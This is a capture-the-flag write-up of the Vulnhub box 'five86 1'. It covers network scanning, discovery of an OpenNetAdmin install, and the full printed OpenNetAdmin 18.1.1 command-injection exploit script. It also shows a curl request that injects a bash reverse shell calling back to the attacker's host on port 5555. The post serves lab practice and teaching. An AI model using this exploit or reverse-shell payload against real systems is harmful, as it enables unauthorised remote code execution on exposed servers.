 ```yaml
---
title: Vulnhub - five86 1
description: My writeup on five86 1 box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i.imgur.com/E1SIkqH.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **five86 1**  | 
| Series :      | **five86**         |
| Difficulty :  | **Easy/Medium**             |   
| Release Date :| **8 Jan 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [DCAU](https://twitter.com/DCAU7){:target="_blank"}     | 
| Download :    | [five86 1](https://www.vulnhub.com/entry/five86-1,417/){:target="_blank"}      | 

## Summary

Recently i was busy, i didn't have the time to make writeups. Luckily now im able to make writeups again, let's begin with some (g)old series! I also did an update on my writeup style, hope you like it.  Let's pwn it! :sunglasses:

## PoC 



## Target IP

Always first step is to find target IP address, i prefer to use the `arp-scan` utility. Then we'll save the IP address in a variable. 

```
$ arp-scan --localnet | grep "VMware"
192.168.1.14	00:0c:29:11:aa:bc	VMware, Inc.
$ ip=192.168.1.14
```

## Enumeration/Reconnaissance

Now as always let's continue with a nmap scan.

```
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 19:20 EET
Nmap scan report for five86-1.zte.com.cn (192.168.1.14)
Host is up (0.00067s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
MAC Address: 00:0C:29:11:AA:BC (VMware)

$ nmap -p 22,80,10000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 19:21 EET
Nmap scan report for five86-1.zte.com.cn (192.168.1.14)
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Let's focus on port 80, once we visit the website we can see nothing a blank page. We'll continue with a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster80.txt
/index.html (Status: 200)
/reports (Status: 401)
/robots.txt (Status: 200)
```

`/reports` asks for credentials:

![](https://i.imgur.com/8anh4zA.png)

`/robots.txt` has an interesting directory:

```
$ curl http://$ip/robots.txt
User-agent: *
Disallow: /ona
```

## Shell as www-data

Once we visit `/ona` we can see [OpenNetAdmin](https://opennetadmin.com/){:target="_blank"} installation. OpenNetAdmin is a system for tracking IP network attributes in a database. Our next step is to search for possible exploits, let's fire up `searchsploit`.

```
$ searchsploit opennetadmin
-----------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  Path
-----------------------------------------------------------------------------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                     | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                      | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                       | php/webapps/47691.sh
-----------------------------------------------------------------------------------------------------------
```

The `.sh` one looks perfect! Let's mirror it.

```
$ searchsploit -m php/webapps/47691.sh                                                                                                                                          
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
File Type: ASCII text, with CRLF line terminators

Copied to: /root/Documents/vulnhub/five86_1/47691.sh
```

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

A really simple exploit, if we try to run it we'll lot of errors.

```
$ bash 47691.sh http://$ip/ona/
47691.sh: line 8: $'\r': command not found
47691.sh: line 16: $'\r': command not found
47691.sh: line 18: $'\r': command not found
47691.sh: line 23: syntax error near unexpected token `done'
47691.sh: line 23: `done'
```

Here we need a little trick. `dos2unix` modifies newline characters so they can be Linux compatible.

```
$ dos2unix 47691.sh                                                                                                                                                                
dos2unix: converting file 47691.sh to Unix format...
$ bash 47691.sh http://$ip/ona/     
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got RCE cool, useless shell. Let's run the `curl` command manually and edit it a bit. We will inject our reverse shell in it. 

The reverse shell we'll use:

```
bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1
```

Our finally command will be this:

```
$ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.16%2F5555%200%3E%261%27&xajaxargs[]=ping" http://$ip/ona/
```

```
$ nc -lvp 5555 
listening on [any] 5555 ...

www-data@five86-1:/opt/ona/www$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@five86-1:/opt/ona/www$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@five86-1:/opt/ona/www$ 
```
